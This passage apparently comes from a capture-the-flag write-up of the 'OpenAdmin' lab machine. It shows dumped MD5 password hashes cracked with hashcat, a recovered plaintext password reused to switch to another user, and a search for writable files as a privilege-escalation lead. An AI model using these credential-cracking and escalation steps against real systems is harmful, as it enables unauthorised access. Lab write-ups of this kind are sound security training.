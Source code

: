 ```bash
+----------+----------------------------------+-------+
| guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 |
| admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 |
+----------+----------------------------------+-------+
2 rows in set (0.00 sec)
```

```bash
ghost@localhost [00:07:13] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % hashcat hashes /usr/share/wordlists/rockyou.txt -O -S -w 3 -m 0
098f6bcd4621d373cade4e832627b4f6:test
21232f297a57a5a743894a0e4a801fc3:admin
```

Seems like default passwords. So anyway, using the password `n1nj4W4rri0R!` I decided to try on 2 users.
- jimmy
- joanna

It works with the user jimmy.

```bash
www-data@openadmin:/opt/ona/www/local/config$ su jimmy
Password: n1nj4W4rri0R!
jimmy@openadmin:/opt/ona/www/local/config$ exit


www-data@openadmin:/opt/ona/www/local/config$ su joanna
Password: n1nj4W4rri0R!
su: Authentication failure
```

But the user `jimmy` has no `user.txt` so I need to move to `joanna` somehow.

```bash
jimmy@openadmin:~$ cat user.txt
cat: user.txt: No such file or directory
```

I checked what files seems to be writable and found an interesting directory `/var/www/internal`.

```bash
jimmy@openadmin:~$ find / -writable 2>/dev/null | grep -v 'proc\|snap\|sys\|dev\|run\|tmp'
/var/crash
/var/lib/php/sessions
/var/lib/lxcfs/cgroup
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
/var/lock
/home/jimmy
/home/jimmy/.local
/home/jimmy/.local/share
/home/jimmy/.local/share/nano
/home/jimmy/.local/share/nano/search_history
/home/jimmy/.bashrc
/home/jimmy/.cache
/home/jimmy/.cache/motd.legal-displayed
/home/jimmy/.profile
/home/jimmy/.gnupg
/home/jimmy/.gnupg/private-keys-v1.d
/home/jimmy/.bash_history
/home/jimmy/.bash_logout
```
